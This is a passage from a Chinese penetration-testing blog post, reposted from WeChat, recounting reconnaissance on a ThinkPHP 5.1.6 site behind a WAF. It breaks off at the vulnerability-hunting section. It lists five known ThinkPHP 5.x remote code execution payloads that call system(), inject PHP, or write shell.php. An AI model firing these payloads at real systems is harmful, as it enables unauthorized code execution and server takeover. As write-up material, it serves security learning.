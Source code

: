 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/_z-3ok9g3oXwU3vVz68Eqg)

### ![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFmbvACy4WbM26IkAkBJJiaDxaWravXnPBwfKIbnN3HSchXRnauqld9j8icX70UFnwb5tiafibicPiaIj6g/640?wx_fmt=png)

> 本文来源：https://blog.zygd.site/

### **0x00 前言**

> 最近一直在和团队表哥们实战打击灰黑产业 学到了很多经验 以此文来记录下挖掘的两个 0day
> 
> 以下渗透均为本地测试

### **0x01 信息收集**  

做了一波简单的收集如下:

*   域名：http://zb.target.com
    
*   真实 IP：106.xx.xx.205
    
*   `Nginx + PHP`
    
*   ThinkPHP V5.1.6(开启 debug)
    
*   宝塔 WAF 🤷‍♂️
    
*   后台：http://zb.target.com/admin/login
    

看到 Thinkphp 我想到的就是拿 payload 一把梭哈他

(奈何对方有宝塔 WAF😢 没能绕过去)

因本人学艺不精，不会 bypass，哭晕了😂  

SHELL

<table width="768"><tbody><tr><td><pre class="hljs markdown">thinkphp5.1.x payload
?s=index/\think\Request/input&amp;filter[]=system&amp;data=pwd
?s=index/\think\view\driver\Php/display&amp;content=&lt;?php phpinfo();?&gt;
?s=index/\think\template\driver\file/write&amp;cacheFile=shell.php&amp;content=&lt;?php phpinfo();?&gt;
?s=index/\think\Container/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=id
?s=index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=id</pre></td></tr></tbody></table>

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHSACQCfISQ9OhkCryXs7d7y4JumknuAQuLTic2DrRjwTGONU8VQcwhDyJSmrvPmK02s6HhgucscPw/640?wx_fmt=png)

那咋办呢? 

当然是继续干啊 还有前台后台没看呢！  

### **0x02 漏洞挖掘**
